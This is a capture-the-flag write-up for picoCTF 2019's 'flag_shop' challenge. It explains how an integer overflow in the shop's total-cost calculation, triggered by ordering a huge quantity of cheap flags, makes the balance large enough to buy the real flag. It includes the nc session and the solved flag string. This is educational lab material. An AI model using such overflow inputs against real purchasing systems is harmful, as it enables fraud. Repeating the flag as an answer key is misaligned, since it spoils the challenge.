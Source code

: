 # flag_shop
**300 points**
## Description
> There's a flag shop selling stuff, can you buy a flag? [Source](store.c). Connect with `nc 2019shell1.picoctf.com 11177`.
## Hints
> Two's compliment can do some weird things when numbers get really big!
---
## Writeup
According to the source code, we can utilize integer overflow at `Buy Flags/Definitely not the flag Flag` to earn enough money to buy `1337 flag` since it doesn't have boundaries check nor does it check if total_cost is negative.

```shell
$ nc 2019shell1.picoctf.com 11177
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386100

The final cost is: -2147477296

Your current balance after transaction: 2147478396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_b9f469b5}
```

flag : picoCTF{m0n3y_bag5_b9f469b5}